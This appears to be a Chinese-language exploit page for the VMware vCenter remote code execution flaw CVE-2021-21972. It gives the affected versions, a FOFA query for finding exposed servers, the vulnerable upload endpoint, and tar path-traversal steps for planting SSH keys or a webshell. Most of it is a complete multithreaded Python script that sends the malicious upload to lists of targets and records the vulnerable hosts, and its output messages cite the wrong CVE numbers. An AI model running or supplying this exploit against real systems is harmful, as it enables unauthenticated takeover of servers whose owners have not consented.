

# VMware vCenter Server 远程代码执行漏洞 CVE-2021-21972

## 漏洞描述

由于对 vSphere vCenter Server中用户提供的输入的验证不足，因此存在该漏洞。远程非身份验证攻击者可以向端口 443/tcp 发送专门制作的 HTTP 请求，并在系统上执行任意代码。

参考链接：

- https://blog.noah.360.net/vcenter-6-5-7-0-rce-lou-dong-fen-xi/
- https://swarm.ptsecurity.com/unauth-rce-vmware/
- https://www.vmware.com/security/advisories/VMSA-2021-0002.html

## 漏洞影响

```
VMware vCenter Server 7.0系列 < 7.0.U1c
VMware vCenter Server 6.7系列 < 6.7.U3l
VMware vCenter Server 6.5系列 < 6.5 U3n
```

## FOFA

```
app="vmware-vCenter"
```

## 漏洞复现

漏洞路径：

```
https://target/ui/vropspluginui/rest/services/uploadova
POST: name="uploadFile"; filename="xxx.tar"
```

构造POST包上传tar文件：



Linux可以直接创建../../home/vsphere-ui/.ssh/authorized_keys TAR文件 后直接SSH连；Windows可以直接写入webshell。

批量检测脚本：

- https://raw.githubusercontent.com/QmF0c3UK/CVE-2021-21972-vCenter-6.5-7.0-RCE-POC/main/CVE-2021-21972.py

```python
#-*- coding:utf-8 -*-
banner = """
        888888ba             dP                     
        88    `8b            88                     
       a88aaaa8P' .d8888b. d8888P .d8888b. dP    dP 
        88   `8b. 88'  `88   88   Y8ooooo. 88    88 
        88    .88 88.  .88   88         88 88.  .88 
        88888888P `88888P8   dP   `88888P' `88888P' 
   ooooooooooooooooooooooooooooooooooooooooooooooooooooo 
                @time:2021/02/25 CVE-2021-21972.py
                C0de by NebulabdSec - @batsu                  
 """
print(banner)

import threadpool
import random
import argparse
import http.client
import urllib3
import base64
import requests


urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
http.client.HTTPConnection._http_vsn = 10
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'

TARGET_URI = "/ui/vropspluginui/rest/services/uploadova"
def get_ua():
    first_num = random.randint(55, 62)
    third_num = random.randint(0, 3200)
    fourth_num = random.randint(0, 140)
    os_type = [
        '(Windows NT 6.1; WOW64)', '(Windows NT 10.0; WOW64)', '(X11; Linux x86_64)',
        '(Macintosh; Intel Mac OS X 10_12_6)'
    ]
    chrome_version = 'Chrome/{}.0.{}.{}'.format(first_num, third_num, fourth_num)

    ua = ' '.join(['Mozilla/5.0', random.choice(os_type), 'AppleWebKit/537.36',
                   '(KHTML, like Gecko)', chrome_version, 'Safari/537.36']
                  )
    return ua


def CVE_2021_21972(url):
    # proxies = {"scoks5": "http://127.0.0.1:1081"}
    proxies = {
        "http": "http://127.0.0.1:8080",
        "https": "http://127.0.0.1:8080",
    }
    headers = {
        'User-Agent': get_ua()
    }
    # data = base64.b64decode(Payload)
    # files = {'uploadFile': open('all.tar', 'rb')} #linux
    files = {'uploadFile': open('test.tar', 'rb')} #win
    targetUrl = url + TARGET_URI
    try:
        res = requests.post(url=targetUrl,
                            headers=headers,
                            files=files,
                            verify=False,
                            proxies=proxies)
                            # proxies={'socks5': 'http://127.0.0.1:1081'})
        if res.status_code == 200 and "SUCCESS" in res.text:
            print("[+] URL:{}--------存在CVE-2021-21872漏洞".format(url))
            # print("[+] Command success result: " + res.text + "\n")
            with open("存在漏洞地址.txt", 'a') as fw:
                fw.write(url + '\n')
        else:
            print("[-] " + url + " 没有发现CVE-2020-14882漏洞.\n")
    # except Exception as e:
    #     print(e)
    except:
        print("[-] " + url + " Request ERROR.\n")
def multithreading(filename, pools=5):
    works = []
    with open(filename, "r") as f:
        for i in f:
            func_params = [i.rstrip("\n")]
            # func_params = [i] + [cmd]
            works.append((func_params, None))
    pool = threadpool.ThreadPool(pools)
    reqs = threadpool.makeRequests(CVE_2021_21972, works)
    [pool.putRequest(req) for req in reqs]
    pool.wait()

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("-u",
                        "--url",
                        help="Target URL; Example:http://ip:port")
    parser.add_argument("-f",
                        "--file",
                        help="Url File; Example:url.txt")
    # parser.add_argument("-t",
    #                     "--tar",
    #                     help="Create tar File; Example:test.tar")
    # parser.add_argument("-c", "--cmd", help="Commands to be executed; ")
    args = parser.parse_args()
    url = args.url
    # cmd = args.cmd
    file_path = args.file
    # jsp = args.tar
    # if jsp != None:
    #     print(jsp)
    #     generate_zip(jsp)
    if url != None and file_path ==None:
        CVE_2021_21972(url)
    elif url == None and file_path != None:
        multithreading(file_path, 10)  # 默认15线程

if __name__ == "__main__":
    main()
```

